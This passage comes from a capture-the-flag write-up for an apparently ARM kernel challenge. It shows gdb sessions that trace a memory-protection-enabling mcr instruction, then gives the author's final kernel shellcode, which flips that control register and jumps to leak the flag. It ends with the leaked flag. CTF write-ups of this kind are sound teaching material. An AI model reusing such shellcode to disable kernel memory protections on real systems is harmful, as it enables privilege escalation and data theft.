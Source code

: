 ```
(gdb) x/s 0x4000000
0x4000000:      "I3THHrtYGdYy0EYF"
```

After asking the BKP admins why their website wasn't accepting my flag, I was told that this
was not the flag, and instead just the random seed.  Instead I needed to submit the string that would say BkP{...}.  Confused
as to why the flag was not at 0x4000000, I decided to look into when the flag was there.  As I single stepped through the 
start of the binary, I was able to pinpoint the exact instruction that caused the address 0x4000000 to no longer contain the
flag.

```
(gdb) x/2i $pc
=> 0x100dc:     mcr     15, 0, r0, cr1, cr0, {0}
   0x100e0:     pop     {r0, r1, r2, r3, r4, r5, r6, r7, r8, r9, r10, r11, r12, pc}
(gdb) x/s 0x4000000
0x4000000:      "BkP{This is the flag.}"
(gdb) stepi
0x000100e0 in ?? ()
(gdb) x/s 0x4000000
0x4000000:      "I3THHrtYGdYy0EYF"
(gdb) 
```

After some googling, I determined that this instruction was turning on memory protections.  As the instruction before 0x100dc
set r0 to have a non-zero 1 bit, I assumed that I simply needed to call it again with a zero'd register.

However, given the shellcode I had before and the length limit of the task struct, I did not have any spare space for
instructions.  I was able to shave off an instruction, by no longer setting the bottom half of r4.  Instead, we'd just see the
flag later in the output. So instead I just kept switching registers in the mcr instruction until I found one that was set
appropriately.  In the end, r7 seemed to work most often, so I used that, given the final kernel shellcode of:

```
mcr p15, 0, R7, c1, c0, 0                                                                                                       
movt R4, #0x03ff                                                                                                                
movw R3, #0x1998                                                                                                                
movt R3, #0xCC01                                                                                                                
and R3, #0x11ffffff                                                                                                             
and R3, #0xffff0fff                                                                                                             
bx R3                                                                                                                           
```

And then, after several runs against the remote service, I finally got one that had r7 set appropriately and dumped the flag.

```
jeff@laptop:~/bare$ strings /tmp/leaked
BkP{I saw ARM on your resume...}
```


